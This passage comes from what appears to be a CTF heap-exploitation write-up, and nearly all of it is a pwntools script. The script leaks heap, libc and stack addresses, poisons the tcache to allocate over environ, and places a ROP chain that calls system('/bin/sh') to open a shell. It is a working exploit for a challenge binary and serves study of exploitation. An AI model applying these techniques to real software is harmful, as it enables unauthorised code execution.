    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(size))
    io.sendafter('>',context)

def show(index):
    io.sendlineafter('>','4')
    io.sendlineafter('>',str(index))

def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('>',str(index))

for i in range(3):
    add(123,'aaaa',0x18,'aaaa') # 0 1 2
free(0)
edit(1,12,'aa',0x40,'aa') 
add(123,'aaa',0x18,'a'*0x10) # 2
show(2)
io.recvuntil('a'*0x10)
heap_base=u64(io.recv(6).ljust(8,b'\x00'))-0x2d0
success('heap_base:'+hex(heap_base))

for i in range(9):
    add(12,'bbbb',0x300,'bbbb')
for i in range(8):
    free(8+2-i)
add(12,'ddd',0x40,'d') # 4

show(4)
io.recvuntil('Information: ')
libc_base=u64(io.recv(6).ljust(8,b'\x00'))-0x21af64
success('libc_base:'+hex(libc_base))
rdi=0x000000000002a3e5+libc_base
ret=0x0000000000029139+libc_base
system=libc_base+libc.symbols['system']
bin_sh=libc_base+next(libc.search(b'/bin/sh\x00'))
environ=libc_base+libc.symbols['environ']

add(666,'666',0x70,'666') # 5
add(777,'777',0x10,'777') # 6

free_addr=heap_base+0x10 # tcache bin表
free(5)
free(5)
gift(12,'gift',str(hex(free_addr))[2:])
pd=p64(0x0000000100000000)+p64(0)*9+p64(0x0007000000000000)+p64(0)*4+p64(environ-0x10)
add(1,'\x01\x01\x06',0x280,pd) # tcache bin 6
add(1,'\x66',0x10,'a'*0x8) # environ 7
show(7)
io.recvuntil('a'*0x8)
# 返回的stack地址
stack_addr=u64(io.recv(6).ljust(8,b'\x00'))-0x148
success('stack_addr:'+hex(stack_addr))

pd=p64(0x0000000100000000)+p64(0)*9+p64(0x0007000000000000)+p64(0)*4+p64(environ-0x10)+p64(heap_base+0x1420)+p64(0)*4+p64(stack_addr)
edit(6,1,'\x01\x01\x06',0x280,pd)

pd=p64(ret)+p64(rdi)+p64(bin_sh)+p64(system)
add(1,'\x66',0x70,pd) # 8

#gdb.attach(io)
#pause()

io.interactive()
```

get shell：


